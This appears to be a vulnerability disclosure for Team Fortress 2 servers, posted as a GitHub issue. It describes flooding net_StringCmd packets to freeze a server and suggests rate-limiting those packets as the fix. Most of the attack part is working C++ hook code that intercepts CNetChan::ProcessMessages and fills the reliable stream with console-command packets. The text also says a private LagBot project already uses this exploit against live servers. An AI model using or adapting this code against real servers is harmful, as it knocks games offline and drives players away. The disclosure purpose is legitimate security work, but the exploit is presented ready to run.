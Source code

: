 # Creating lags using the net_StringCmd packet

Hi. With the help of a huge number of net_StringCmd packets, the client is able to "freeze" the server, creating lags. Currently it is used in the LagBot project - a private project based on the CatBot project, which for now have filled the game servers of the game Team Fortress 2 "Casual" mode. It is enough to continuously send thousands of these packets per unit of time, so that the server began to experience lags, or "shutdown" effect. This is caused by the fact that the server tries to find the necessary command in the lists of console variables and commands, which requires CPU time. The only solution that I see is to limit the processing of net_StringCmd packets per second from client.

I managed to implement this exploit by intercepting the ProcessMessages method of the CNetChan class, inserting into it an own handler that generates net_StringCmd packets.

```cpp
bool __fastcall hkCNetChan_ProcessMessages(CNetChan *pThis, int, bf_read *pBuf)
{
	//
	// Get original address of CNetChan::ProcessMessages method.
	//

	static auto pfnCNetChan_ProcessMessages = TProcessMessages(Engine[0x1B5A40]);

	if (g_bExecuteHeh)
	{
		//
		// Simple way to send as much as possible
		// amount of net_StringCmd packet.
		//

		pThis->SetCompressionMode(true);
		pThis->SetMaxBufferSize(true, NET_MAX_PAYLOAD);

		auto pNetBuf = &pThis->m_StreamReliable;
		
		//
		// Fill to the limit the reliable stream.
		//

		while (pNetBuf->GetNumBitsWritten() + 15 < pNetBuf->GetNumBitsLeft())
		{
			pNetBuf->WriteHeader(net_StringCmd);

			//
			// You can choose any console command,
			// 'menuselect' is for example.
			//

			pNetBuf->WriteString("menuselect 1 1");
		}
	}

	//
	// Call original method.
	//

	return pfnCNetChan_ProcessMessages(pThis, pBuf);
}
```

## Impact

As described above - the attacker is able to "freeze" the server, completely stopping the game process and forcing current players to leave the server.